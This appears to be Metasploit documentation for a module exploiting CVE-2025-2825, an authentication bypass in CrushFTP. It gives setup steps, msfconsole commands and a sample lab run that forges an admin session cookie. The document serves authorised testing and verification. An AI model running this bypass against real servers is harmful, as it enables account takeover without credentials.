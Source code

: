 ## Vulnerable Application
This module leverages an authentication bypass in CrushFTP 11 < 11.3.1 and 10 < 10.8.4. Attackers
with knowledge of a valid username can provide a crafted S3 authentication header to the CrushFTP web API
to authenticate as that user without valid credentials. When successfully executed, the exploit will
output working session cookies for the target user account. This vulnerability is tracked as CVE-2025-2825.
More information can be found in the [Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/k0EgiL9Psz/cve-2025-2825/rapid7-analysis).

## Options

### TARGETUSER
The target account to forge a session cookie for (default: crushadmin).

## Testing
To set up a test environment:
1. Download a vulnerable 11.3.0 'CrushFTP.jar' file (SHA256: 6fbca7826d967bc56effb376743ff7921df907c576da74252844db9aeb0385a4).
2. Configure `CRUSH_DIR` in `crushftp_init.sh` to point to the correct install directory.
3. Execute `java -jar CrushFTP.jar` to show a local client GUI interface that can be used to set up an admin account.
4. Execute `sudo crushftp_init.sh start` to launch the software on Linux or Mac. If on Windows, run `CrushFTP.exe` as an administrator.
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/crushftp_authbypass_cve_2025_2825`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set TARGETUSER <TARGET_USER>`
7. `run`

## Scenarios
### CrushFTP on Windows, Linux, or Mac
```
msf6 > use auxiliary/gather/crushftp_authbypass_cve_2025_2825
msf6 auxiliary(gather/crushftp_authbypass_cve_2025_2825) > set RHOSTS 192.168.181.129
RHOSTS => 192.168.181.129
msf6 auxiliary(gather/crushftp_authbypass_cve_2025_2825) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(gather/crushftp_authbypass_cve_2025_2825) > set TARGETUSER crushadmin
TARGETUSER => crushadmin
msf6 auxiliary(gather/crushftp_authbypass_cve_2025_2825) > show options

Module options (auxiliary/gather/crushftp_authbypass_cve_2025_2825):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.181.129  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       8080             yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The URI path to CrushFTP
   TARGETUSER  crushadmin       yes       The target account to forge a session cookie for
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/crushftp_authbypass_cve_2025_2825) > run
[*] Running module against 192.168.181.129

[*] Confirming the target is a CrushFTP web service
[*] Attempting to bypass authentication
[+] The target returned the expected empty response and is likely vulnerable
[*] Attempting to access an authenticated API endpoint with the malicious session cookie
[+] Authentication bypass succeeded! Cookie string generated
Cookie: CrushAuth=1743641873_PrrQtXKr3iuXBCqQIPcIbfx20w5uW3; currentAuth=5uW3

[*] Auxiliary module execution completed
```
